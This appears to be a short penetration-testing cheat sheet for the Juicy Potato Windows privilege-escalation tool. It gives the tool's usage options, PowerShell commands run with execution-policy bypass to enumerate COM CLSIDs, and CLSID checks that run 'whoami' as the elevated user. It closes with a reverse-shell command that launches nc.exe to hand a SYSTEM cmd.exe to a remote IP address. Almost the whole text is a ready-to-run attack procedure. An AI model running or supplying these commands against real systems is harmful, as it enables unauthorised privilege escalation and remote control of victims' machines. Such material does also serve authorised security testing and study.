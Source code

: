 # Juicy Potato (abusing the golden privileges)

## usage

```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```

## Checking CLSIDs
### run first
```
powershell.exe -ExecutionPolicy Bypass -File "C:\Temp\Join-Object.ps1"
```
does not provide direct output. Make sure there are no errors.

### get list CLSIDs
```
powershell.exe -ExecutionPolicy Bypass -File "C:\Temp\GetCLSID.ps1"
```
Verify following files are generated:<br>
CLSIDs.csv: List of CLSIDs and APIDs in CSV format.<br>
CLSID.list: List of CLSIDs only.


### checking CLSIDs
```
.\get.bat
```
result will saved on kaz.log

### or

### Check working CLSID using -c parameter
```
method 1
.\jus.exe -c "{list-xxx-from-xxx-kaz.log}" -t * -l 1337 -z

method 2
.\jus.exe -c "{list-xxx-from-xxx-kaz.log}" -p "c:\windows\system32\cmd.exe" -a "/c whoami" -l 1337 -t *
```

### Reverse Shell
```
.\jus.exe -l 1337 -c "{working-xxx-xxx-xxx-CLSID}" -p c:\windows\system32\cmd.exe -a "/c C:\Temp\nc.exe -t -e C:\Windows\System32\cmd.exe 123.123.123 6969" -t *
```


## reference

[hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)<br>
[ohpe](https://github.com/ohpe/juicy-potato/blob/master/README.md)































